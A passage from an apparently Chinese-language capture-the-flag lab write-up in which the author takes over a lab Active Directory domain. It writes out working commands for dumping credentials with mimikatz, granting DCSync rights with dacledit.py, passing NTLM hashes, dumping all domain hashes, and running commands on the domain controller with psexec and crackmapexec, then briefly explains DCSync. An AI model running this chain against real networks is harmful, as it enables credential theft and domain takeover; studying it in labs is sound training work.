[![](assets/1709193375-5aff98e5a7662b6a1d0883027519e319.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205115-e4c4f176-d56e-1.png)

接下来继续操作

> .\\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit" > 1.txt  
> 给 zhangtong 增加 dcsync 权限：  
> python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\\$ -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -action write -rights DCSync -principal Zhangtong -target-dn 'DC=xiaorang,DC=lab' -dc-ip=172.22.3.2  
> mimikatz 转移账户：  
> sekurlsa::pth /user:Zhangtong /domain:XIAORANG /ntlm:22c7f81993e96ac83ac2f3f1903de8b4  
> 打 dcsync：  
> .\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit" > 12.txt  
> 继续哈希传递打：  
> proxychains psexec.py administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -codec gbk  
> or  
> proxychains crackmapexec smb 172.22.3.2 -u Administrator -H 7acbc09a6c0efd81bfa7d5a1d4238beb -d xiaorang.lab -x "type C:\\Users\\Administrator\\flag\\flag.txt"  
> 得到第四个 flag  
> smb 登录邮箱服务器：  
> proxychains smbclient.py xiaorang.lab/administrator@172.22.3.26 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
> 
> 成功拿下，又耗了几个沙烁，心疼。此靶标主要对版本漏洞考的比较多，也学到一新姿势（Dcsync 漏洞），主要是利用了域控制器中的`DSRPL`操作，该操作用于复制域控制器中的数据，包括用户 NTLM 哈希值。攻击者可以通过模拟一个域控制器，伪装成域控制器请求其他域控制器的数据，从而获取到用户的 NTLM 哈希值。续下一个啦

## Delivery 靶标

